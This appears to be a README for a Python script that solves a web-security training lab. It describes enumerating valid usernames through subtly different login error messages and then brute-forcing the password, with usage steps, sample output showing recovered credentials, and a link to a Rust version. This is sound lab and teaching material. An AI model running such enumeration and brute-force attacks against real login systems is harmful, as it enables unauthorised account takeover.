 # Hack Steps
1. Obtain a valid username via subtly different error messages
2. Brute force password of that valid username

# Run Script
1. Change the URL of the lab
2. Change the PATH for your usernames list
3. Change the PATH for you passwords list
4. Start script
```
~$ python username_enumeration_via_different_resposnes.py
```
# Expected Output
```
[#] Enumerate usernames..
Elapsed: 0 minutes || Failed: 0 || Trying (6/101): adam                                              
[#] Brute forcing password..
✅ Valid user: adam
Elapsed: 0 minutes || Failed: 0 || Trying (74/102): joshua                                            
✅ Login successfully:  username: adam, password: joshua
✅ Finished in: 0 minutes
Results was saved to: results
Failed users count: 0
Failed users: [  ]
Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqal3awii/WebSecurity-Academy-with-Rust/tree/main/Authentication/username_enumeration_via_subtly_different_responses) for this lab in both single-threaded and multi-threaded approaches.
